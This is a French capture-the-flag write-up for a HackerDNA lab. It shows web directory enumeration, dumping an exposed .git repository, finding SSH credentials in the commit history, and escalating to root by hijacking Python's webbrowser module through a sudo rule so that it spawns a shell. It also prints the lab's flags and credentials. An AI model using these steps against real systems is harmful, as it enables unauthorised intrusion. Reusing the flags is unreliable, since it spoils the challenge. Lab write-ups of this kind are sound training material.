






- **Plateforme :** HackerDNA
    
    
- **Difficulté :** Moyenne
    
   
- **Flags :**
    
    - **User :** `834f5827-e0fb-4d9b-b1d0-687dbea16a1f`
        
    - **Root :** `fce6a3ab-8bce-4f4d-9983-95025be84ad9`
        

---

## 1. Reconnaissance & Énumération Web

L'objectif initial est d'explorer l'adresse IP cible (`34.245.44.118`). Nous commençons par une énumération des répertoires web à l'aide de **Gobuster** et de la liste `common.txt` :

```bash
gobuster dir -u http://34.245.44.118 -w /usr/share/wordlists/dirb/common.txt
```

#### Résultats du scan

Le scan révèle une vulnérabilité critique : le dossier `.git` est exposé publiquement (Statut `200` sur `.git/HEAD`).

```text
.git/HEAD            (Status: 200) [Size: 23]
.htaccess            (Status: 200) [Size: 17]
index.html           (Status: 200) [Size: 533]
```



---

## 2. Extraction du dépôt Git

Puisque le répertoire `.git` est accessible mais que le listing des dossiers est désactivé (Erreur `403`), nous ne pouvons pas utiliser un simple `wget` récursif. Nous utilisons donc **git-dumper** pour reconstruire le dépôt en local.

> **Outil git-dumper**
> `git-dumper` est un outil d'attaque/forensic écrit en Python. Il permet de télécharger récursivement un dossier `.git` exposé sur un serveur web même si le listing des répertoires (`Directory Indexing`) est désactivé. Il interroge un par un les fichiers standards de la structure Git (comme `HEAD`, `index`, `config`, `logs/HEAD`) puis extrait de manière itérative tous les objets (commits, trees, blobs) en calculant leurs empreintes SHA-1 détectées. Cela reconstruit un dépôt local fonctionnel identique à celui du serveur.

```
# Extraction du dépôt distant
git-dumper http://34.245.44.118/.git/ ./traversed_repo
cd traversed_repo
```





---

## 3. Analyse de l'historique Git & Obtention du premier accès

Une fois dans le répertoire `traversed_repo`, nous analysons l'historique complet des commits ainsi que les modifications apportées aux fichiers (les _diffs_) :

```bash
git log -p
```

### Analyse des commits

Nous découvrons qu'un fichier nommé `credentials.txt` a été créé puis supprimé pour des raisons de sécurité. Cependant, Git conserve l'historique de sa création dans le commit `eba1551975403fab8246b1ecbf7d340f29185036` :

```
commit eba1551975403fab8246b1ecbf7d340f29185036
Author: Test <test@example.com>
Date:   Wed Sep 25 03:12:39 2024 +0530

    Added credentials for the server maintenance

diff --git a/credentials.txt b/credentials.txt
new file mode 100644
index 0000000..7e9dd6f
--- /dev/null
+++ b/credentials.txt
@@ -0,0 +1 @@
+hackerdna:Password@1
```



### Connexion SSH & User Flag

Les identifiants découverts sont : `hackerdna:Password@1`. Nous les utilisons pour nous connecter au serveur via SSH.

```bash
ssh hackerdna@34.245.44.118
```

Une fois connectés, nous récupérons le flag utilisateur :

```bash
cat user.txt
# Flag : 834f5827-e0fb-4d9b-b1d0-687dbea16a1f
```

---

## 4. Escalade de Privilèges (PrivEsc)

Pour devenir `root`, nous vérifions d'abord les privilèges de notre utilisateur actuel avec `sudo -l` :

```bash
sudo -l
```

**Résultat :**

```text
User hackerdna may run the following commands on ip-10-0-2-42:
    (root) NOPASSWD: /usr/bin/python3 /home/hackerdna/test.py
```

L'utilisateur `hackerdna` peut exécuter un script Python spécifique en tant que `root` sans mot de passe.


### Analyse de la cible

Vérification du contenu de `/home/hackerdna/test.py` :

```
import webbrowser
webbrowser.open("https://google.com")
```

Le fichier appartient à `root` en lecture seule, mais il est situé dans le répertoire personnel de `hackerdna` (`/home/hackerdna/`), sur lequel nous possédons les droits d'écriture.

### Exploitation : Python Library Hijacking

Puisque Python cherche d'abord les modules importés dans le répertoire de travail actuel avant les dossiers système, nous pouvons usurper le module `webbrowser`.

1. Nous créons un faux fichier `webbrowser.py` dans notre répertoire courant :
    
    ```bash
    echo "import os; os.system('/bin/sh')" > /home/hackerdna/webbrowser.py
    ```
    
    _(Note : Nous utilisons `/bin/sh` car `/bin/bash` est absent de ce système de fichiers léger)._
    
2. Nous exécutons le script principal via `sudo` :
    

```bash
   sudo /usr/bin/python3 /home/hackerdna/test.py
```

Le script charge notre code malveillant avec les privilèges de `root` et nous ouvre immédiatement un shell d'administration.

`[Capture d'écran : Création du faux script webbrowser.py et obtention du shell root via sudo]`

---

## 5. Capture du Root Flag

Maintenant que nous sommes `root`, il ne reste plus qu'à lire le flag final stocké dans le répertoire administrateur :

```bash
id
# root

cat /root/flag.txt
# Flag : fce6a3ab-8bce-4f4d-9983-95025be84ad9/
```


